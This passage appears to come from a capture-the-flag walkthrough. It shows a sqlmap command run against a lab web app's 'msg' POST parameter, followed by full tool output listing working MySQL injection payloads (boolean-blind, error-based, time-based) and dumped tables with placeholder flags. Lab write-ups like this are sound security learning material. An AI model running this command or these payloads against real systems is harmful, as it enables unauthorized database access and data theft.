 There is a parameter named `msg`, which could be exploited.
To get the flag in MySQL backend of vulnerable web app, use the command,
{% capture code %}{% raw %}sqlmap -u "http://<ip>" --data "msg=test" -p msg --dump --batch -v 0{% endraw %}{% endcapture %} {% include code.html code=code %}
The following response would be obtained.
{% capture code %}{% raw %}[*] starting @ 04:44:00 /2020-12-24/

it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
POST parameter 'msg' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 366 HTTP(s) requests:
---
Parameter: msg (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: msg=test' RLIKE (SELECT (CASE WHEN (6965=6965) THEN 0x74657374 ELSE 0x28 END))-- eMep

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: msg=test' AND (SELECT 1792 FROM(SELECT COUNT(*),CONCAT(0x71626b7671,(SELECT (ELT(1792=1792,1))),0x71786b7171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- zCjW

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: msg=test' AND SLEEP(5)-- IIix
---
web server operating system: Linux Ubuntu
web application technology: PHP 7.0.33
back-end DBMS: MySQL >= 5.0
Database: <flag1>
Table: msg
[2 entries]
+------+
| msg  |
+------+
| msg  |
| test |
+------+

Database: <flag1>
Table: lol
[1 entry]
+----------+
| flag     |
+----------+
| <flag3>  |
+----------+

[*] ending @ 04:45:21 /2020-12-24/{% endraw %}{% endcapture %} {% include code.html code=code %}
